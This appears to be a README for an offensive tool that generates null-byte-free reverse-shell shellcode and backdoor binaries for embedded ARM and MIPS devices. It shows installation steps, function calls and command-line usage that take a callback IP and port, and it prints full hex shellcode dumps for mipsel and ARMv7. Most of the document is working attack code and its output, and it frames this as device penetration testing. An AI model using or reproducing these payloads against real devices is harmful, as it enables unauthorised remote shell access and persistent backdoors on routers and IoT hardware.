 # introduction

#### foreword

>In the process of penetration and vulnerability mining of embedded devices, many problems have been encountered. One is that some devices do not have telnetd or ssh services to obtain an interactive shell, and the other is that memory corruption vulnerabilities such as stack overflow are usually Null bytes are truncated, so it is more troublesome to construct reverse_shellcode, so this tool was developed to exploit the vulnerability. This tool is developed based on the PWN module and currently uses the python2 language

#### fuction

This tool is embedded in the security test of the device. There are two main functions:

1.  Generate **backdoor programs** of various architectures. The backdoor program is packaged in shellless pure shellcode and is smal in size.**Armv5, Armv7, Armv8, mipsel, mips are now supported, and they are still being updated**

2.  Generate **reverse_shell shellcode** of various architectures during the exploit process, and no null bytes, which facilitates the exploitation of memory corruption vulnerabilities on embedded devices. **Armv5, Armv7, Armv8, mipsel, mips are now supported, and they are still being updated**

#### install (1)
#### install

**pip install hackebds**

```
pip install hackebds
....
Defaulting to user installation because normal site-packages is not writeable
Collecting hackebds
  Downloading hackebds-0.0.3-py2-none-any.whl (11 kB)
Installing collected packages: hackebds
Successfully installed hackebds-0.0.3
>>> import hackebds
>>> dir(hackebds)
['__builtins__', '__doc__', '__file__', '__name__', '__package__', '__path__', 'aarch64', 'arm', 'extract_shellcode', 'mips']
>>> 
```

You can view the function through the dir function

```
 'Corefile', 'armebv5_backdoor', 'armebv5_reverse_sl', 'armebv7_backdoor', 'armebv7_reverse_sl', 'armelv5_backdoor', 'armelv5_reverse_sl', 'armelv7_backdoor', 'armelv7_reverse_sl', 'asm', 'atexception', '
```

#### Instructions for use

​	To use the generated backdoor or reverse_shellcode, you need to specify the ip address, port number, assembly architecture, endian （Default is armv7）

​	**Here is the example that generates reverse_shellcode without null bytes**

```
>>> mips.mipsel_reverse_sl("127.0.0.1",4444)
[+] No NULL byte shellcode for hex(len is 264):
\xfd\xff\x19\x24\x27\x20\x20\x03\xff\xff\x06\x28\x57\x10\x02\x34\xfc\xff\xa4\xaf\xfc\xff\xa5\x8f\x0c\x01\x01\x01\xfc\xff\xa2\xaf\xfc\xff\xb0\x8f\xee\xa3\x19\x3c\xfd\xff\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xff\xfe\x19\x3c\x80\xff\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\xfc\xff\xb0\xaf\xfc\xff\xa4\x8f\x20\x28\xa0\x03\xef\xff\x19\x24\x27\x30\x20\x03\x4a\x10\x02\x34\x0c\x01\x01\x01\xf7\xff\x85\x20\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfe\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfd\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf8\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\x20\x20\xa0\x03\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf4\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xfc\xff\xa0\xaf\xf4\xff\xbd\x27\xff\xff\x05\x28\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\xfb\xff\x19\x24\x27\x28\x20\x03\x20\x28\xa5\x03\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\x20\x28\xa0\x03\xff\xff\x06\x28\xab\x0f\x02\x34\x0c\x01\x01\x01
>>> arm.armelv7_reverse_sl("127.0.0.1",4444)
[+] No NULL byte shellcode for hex(len is 226):
\x04\x40\x24\xe0\x7f\x70\xa0\xe3\x28\x70\x4d\xe5\x07\x70\x27\xe0\x27\x70\x4d\xe5\x07\x70\x27\xe0\x26\x70\x4d\xe5\x01\x70\xa0\xe3\x25\x70\x4d\xe5\x02\x70\xa0\xe3\x2c\x70\x4d\xe5\x2b\x40\x4d\xe5\x11\x70\xa0\xe3\x2a\x70\x4d\xe5\x5c\x70\xa0\xe3\x29\x70\x4d\xe5\x14\x40\x4d\xe5\x68\x70\xa0\xe3\x15\x70\x4d\xe5\x73\x70\xa0\xe3\x16\x70\x4d\xe5\x2f\x70\xa0\xe3\x17\x70\x4d\xe5\x6e\x70\xa0\xe3\x18\x70\x4d\xe5\x69\x70\xa0\xe3\x19\x70\x4d\xe5\x62\x70\xa0\xe3\x1a\x70\x4d\xe5\x2f\x70\xa0\xe3\x1b\x70\x4d\xe5\x1b\x40\x4d\xe2\x2c\x50\x4d\xe2\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x4f\xf0\x02\x01\x08\x46\x4f\xf0\x01\x01\x82\xea\x02\x02\x4f\xf0\xc8\x07\x07\xf1\x51\x07\x01\xdf\x06\x46\x29\x46\x4f\xf0\x10\x02\x07\xf1\x02\x07\x01\xdf\x30\x46\x81\xea\x01\x01\x4f\xf0\x3f\x07\x01\xdf\x30\x46\x01\xf1\x01\x01\x01\xdf\x30\x46\x01\xf1\x01\x01\x01\xdf\x20\x46\x81\xea\x01\x01\x82\xea\x02\x02\x03\xb4\x69\x46\x4f\xf0\x0b\x07\x01\xd
```

**This is the usage list for generating the backdoor file of the corresponding schema**

```
Python 2.7.17 (default, Mar 18 2022, 13:21:42) 
[GCC 7.5.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from hackebds import *
>>> mips.mipsel_backdo	or("127.0.0.1",4444)
mipsel_backdoor is ok in current path ./
>>> arm.armelv7_backdoor("127.0.0.1",4444)
backdoor_armelv7 is ok in ./
>>> arm.armelv7_reverse_sl("127.0.0.1",4444)
```


#### 


#### install (2)
  python2 install pwn
```
pip install pwn
```

​	This tool is developed in python language, so converting python to ELF can be done through **nuitka**

```shell
nuitka hackEmbedded_tool.py
```

​	If possible, put the modules that generate various backdoors and reverse_shellcode under python's site-packages

```
sudo cp ./generate_* {your_dir}/site-packages
sudo cp ./extract_shellcode.py {your_dir}/site-packages
```

You can view the path in sys.path under the python terminal

```
Python 2.7.17 (default, Mar 18 2022, 13:21:42) 
[GCC 7.5.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import sys
>>> sys.path
```

#### Instructions for use

​	To use the generated backdoor or reverse_shellcode, you need to specify the ip address, port number, assembly architecture, endian （Default is armv7）

​	**Here is the example that generates reverse_shellcode without null bytes**

```
hackEmbedded_tool -reverse_ip 192.168.7.1 -reverse_port 444 -arch arm -endian little -exploit_shellcode 1
```
![image-20220428161403858](./img/image-20220428161403858.png)

**This is the usage list for generating the backdoor file of the corresponding schema**
```
hackEmbedded_tool -reverse_ip 192.168.7.1 -reverse_port 444 -arch arm -endian little -backdoor_file 1
```

![image-20220428161757170](./img/image-20220428161757170.png)

**You can view tool information with -h**

![image-20220428161847829](./img/image-20220428161847829.png)


#### chips and architectures
Tests can leverage chips and architectures

Mips:
MIPS 74kc V4.12 big endian
MIPS 24kc V5.0  little endian

Armv7:
Allwinner(全志)V3s

Armv8:
Qualcomm Snapdragon 660

#### One-click build environment

To be added
